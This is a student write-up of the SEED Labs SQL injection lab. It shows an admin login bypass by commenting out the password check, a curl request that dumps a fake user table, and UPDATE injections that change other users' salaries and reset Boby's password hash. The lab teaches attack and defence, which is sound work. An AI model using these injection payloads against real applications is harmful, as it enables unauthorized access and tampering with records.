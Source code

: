 # Trabalho realizado na Semana #7

## Task 1

After the database was loaded, we ran a simple query on the `credential` table to match the name Alice.


```bash
mysql> select * from credential where Name = "Alice";
+----+-------+-------+--------+-------+----------+-------------+---------+-------+----------+------------------------------------------+
| ID | Name  | EID   | Salary | birth | SSN      | PhoneNumber | Address | Email | NickName | Password                                 |
+----+-------+-------+--------+-------+----------+-------------+---------+-------+----------+------------------------------------------+
|  1 | Alice | 10000 |  20000 | 9/20  | 10211002 |             |         |       |          | fdbe918bdae83000aa54747fc95fe0470fff4976 |
+----+-------+-------+--------+-------+----------+-------------+---------+-------+----------+------------------------------------------+
1 row in set (0.00 sec)
```

## Task 2

### Task 2.1

To login as admin, we took advantage of the sql statement by commenting out the password verification part.

<p align="center">
    <img src="screenshots/admin_login.jpeg">
</p>

This will query the db for users with name admin, thus providing us with the admin page:

<p align="center">
    <img src="screenshots/admin_page.jpeg">
</p>

### Task 2.2

For this task, we simply had to convert our query to a url, like this:

```bash
[11/09/22]seed@VM:~$ curl "www.seed-server.com/unsafe_home.php?username=admin%27%3B+--+&Password=11"
<!--
SEED Lab: SQL Injection Education Web plateform
Author: Kailiang Ying
Email: kying@syr.edu
-->

<!--
SEED Lab: SQL Injection Education Web plateform
Enhancement Version 1
Date: 12th April 2018
Developer: Kuber Kohli

Update: Implemented the new bootsrap design. Implemented a new Navbar at the top with two menu options for Home and edit profile, with a button to
logout. The profile details fetched will be displayed using the table class of bootstrap with a dark table head theme.

NOTE: please note that the navbar items should appear only for users and the page with error login message should not have any of these items at
all. Therefore the navbar tag starts before the php tag but it end within the php script adding items as required.
-->

<!DOCTYPE html>
<html lang="en">
<head>
  <!-- Required meta tags -->
  <meta charset="utf-8">
  <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">

  <!-- Bootstrap CSS -->
  <link rel="stylesheet" href="css/bootstrap.min.css">
  <link href="css/style_home.css" type="text/css" rel="stylesheet">

  <!-- Browser Tab title -->
  <title>SQLi Lab</title>
</head>
<body>
  <nav class="navbar fixed-top navbar-expand-lg navbar-light" style="background-color: #3EA055;">
    <div class="collapse navbar-collapse" id="navbarTogglerDemo01">
      <a class="navbar-brand" href="unsafe_home.php" ><img src="seed_logo.png" style="height: 40px; width: 200px;" alt="SEEDLabs"></a>

      <ul class='navbar-nav mr-auto mt-2 mt-lg-0' style='padding-left: 30px;'><li class='nav-item active'><a class='nav-link' href='unsafe_home.php'>Home <span class='sr-only'>(current)</span></a></li><li class='nav-item'><a class='nav-link' href='unsafe_edit_frontend.php'>Edit Profile</a></li></ul><button onclick='logout()' type='button' id='logoffBtn' class='nav-link my-2 my-lg-0'>Logout</button></div></nav><div class='container'><br><h1 class='text-center'><b> User Details </b></h1><hr><br><table class='table table-striped table-bordered'><thead class='thead-dark'><tr><th scope='col'>Username</th><th scope='col'>EId</th><th scope='col'>Salary</th><th scope='col'>Birthday</th><th scope='col'>SSN</th><th scope='col'>Nickname</th><th scope='col'>Email</th><th scope='col'>Address</th><th scope='col'>Ph. Number</th></tr></thead><tbody><tr><th scope='row'> Alice</th><td>10000</td><td>20000</td><td>9/20</td><td>10211002</td><td></td><td></td><td></td><td></td></tr><tr><th scope='row'> Boby</th><td>20000</td><td>30000</td><td>4/20</td><td>10213352</td><td></td><td></td><td></td><td></td></tr><tr><th scope='row'> Ryan</th><td>30000</td><td>50000</td><td>4/10</td><td>98993524</td><td></td><td></td><td></td><td></td></tr><tr><th scope='row'> Samy</th><td>40000</td><td>90000</td><td>1/11</td><td>32193525</td><td></td><td></td><td></td><td></td></tr><tr><th scope='row'> Ted</th><td>50000</td><td>110000</td><td>11/3</td><td>32111111</td><td></td><td></td><td></td><td></td></tr><tr><th scope='row'> Admin</th><td>99999</td><td>400000</td><td>3/5</td><td>43254314</td><td></td><td></td><td></td><td></td></tr></tbody></table>      <br><br>
      <div class="text-center">
        <p>
          Copyright &copy; SEED LABs
        </p>
      </div>
    </div>
    <script type="text/javascript">
    function logout(){
      location.href = "logoff.php";
    }
    </script>
  </body>
  </html>
```

### Task 2.3
As was expected, we were unable to run two queries. This happens because there's already a countermeasure against SQL Injection in the *unsafe_home.php* file. The function *query* of *mysqli* only allows for one query at a time, explaining why it raises an error when we inject two statements.

```php
$conn = getDB();
      // Sql query to authenticate the user
      $sql = "SELECT id, name, eid, salary, birth, ssn, phoneNumber, address, email,nickname,Password
      FROM credential
      WHERE name= '$input_uname' and Password='$hashed_pwd'";
      if (!$result = $conn->query($sql)) {
        echo "</div>";
        echo "</nav>";
        echo "<div class='container text-center'>";
        die('There was an error running the query [' . $conn->error . ']\n');
        echo "</div>";
      }
```

### Task 3.1
We can alter Alice's salary injecting the following line in the first field (for example)

```SQL
' , Salary='20000000
```
The result is the following:

<p align="center">
    <img src="screenshots/update_salary.png">
</p>


### Task 3.2

To alter Boby's salary we can inject the following line in one of the fields from Alice's 'edit profile' page.

```SQL
', Salary='2' WHERE Name='Boby';-- 
```

When we access Boby's profile, the result is the following:

<p align="center">
    <img src="screenshots/update_bobby_salary.png">
</p>

### Task 3.3

In this task we'll try to change Boby's password to '111'. To do that we need to find out what's the value when we encode it using the *sha1( )* function, which is *6216f8a75fd5bb3d5f22b6f9958cdede3fc086c2*

This hashed value is what will be saved in the database.

In Alice's 'edit profile' page, we inject the following line in one of the fields. This will alter Bobby's password to *111*

```SQL
', Password='6216f8a75fd5bb3d5f22b6f9958cdede3fc086c2' WHERE Name='Boby';-- 
```

Then we try to login to Boby's account using the new password.

<p align="center">
    <img src="screenshots/login_boby.png">
</p>

And just like we wanted to, we have gained access to Boby's account using a password defined by us.

<p align="center">
    <img src="screenshots/boby_profile.png">
</p>

